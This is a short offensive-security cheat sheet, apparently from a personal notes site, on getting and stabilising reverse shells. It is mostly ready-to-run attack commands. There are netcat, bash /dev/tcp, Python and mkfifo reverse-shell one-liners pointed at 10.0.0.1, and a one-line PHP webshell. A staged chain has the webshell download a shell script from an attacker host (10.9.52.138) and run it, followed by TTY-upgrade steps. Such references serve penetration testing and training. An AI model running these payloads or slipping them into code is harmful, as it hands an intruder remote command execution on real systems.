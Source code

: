 ```yaml
---
title: Reverse shell
description: Reverse and interactive shell cheatsheet.
---
```


# Reverse shell

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## Well-known reverse shells

```bash
# Listener
nc -lnvp 1234

# netcat
nc -e /bin/bash 10.0.0.1 1234

# bash
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1

# python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

# netcat (openbsd)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# php webshell
<?php echo "<pre>" . system($_REQUEST["cmd"]) . "</pre>"; ?>
```

```bash
$ echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.0.0.1/1234 0>&1' > shell.sh
$ python3 -m http.server 8000

?cmd=curl+10.9.52.138:8000/shell.sh+-o+/tmp/shell.sh
or
?cmd=wget+10.9.52.138:8000/shell.sh+-O+/tmp/shell.sh

$ nc -lvnp 1234

?cmd=bash+/tmp/shell.sh
```

## Interative shell (upgrade your shell)

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

CTRL+Z
stty raw -echo; fg
```

```bash
# Particularly useful with Windows shells
rlwrap nc -lvnp <port>
```

```bash
# On our computer
$ stty -a
speed 38400 baud; rows 17; columns 240; line = 0;
[...]

# On the reverse shell
stty rows 17
stty cols 240
```